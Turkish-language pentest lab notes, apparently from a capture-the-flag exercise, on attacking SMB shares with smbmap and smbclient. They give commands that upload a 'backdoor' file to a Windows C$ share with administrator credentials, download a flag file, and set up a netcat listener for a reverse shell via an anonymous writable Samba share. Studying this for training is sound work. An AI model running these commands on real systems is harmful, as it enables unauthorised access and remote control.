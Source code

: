 ![[Pasted image 20240124104138.png]]
##### C drive'ının içini gösterir.
![[Pasted image 20240124110259.png]]

---
---



## SMBmap ile dosya upload
![[Pasted image 20240124105757.png]]
#### `smbmap -H 10.4.26.58 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor '`


## SMB DOWNLOAD FILE
![[Pasted image 20240124110404.png]]
#### `smbmap -H 10.4.26.58 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt'`

![[Pasted image 20240124111124.png]]


### SMBMAP İLE ELİMİZDE BİR AUTHENTICATION VARSA DOSYA GODERME ALMA SISTEMIN ENUMERATION YAPMA İŞLEMLERİNİ YAPABİLDİK.


---

### REVERSE SHELL WITH SAMBA
https://www.youtube.com/watch?v=KVU_piFhpAE
https://www.nopsec.com/blog/smbmap-wield-it-like-the-creator/
https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/
https://security.stackexchange.com/questions/177083/reverse-connection-metasploitable-2-kali-linux-samba-3-x-without-metasploit

### 1. smbmap ile hangi dosyalara erişimimiz var bak
##### smbmap -H 10.0.2.5 
![[Pasted image 20240124102812.png]]
### 2. smbclient ile tmp READ WRITE yetkisi olan dosya sayasinde ananymous içeri bağlan

##### smbclient -N //10.0.2.5/tmp

![[Pasted image 20240124102926.png]]

### 3. Buradan nc -nvlp 4444 ile dinleyici aç  LOGON commad ile Reverse Shell al
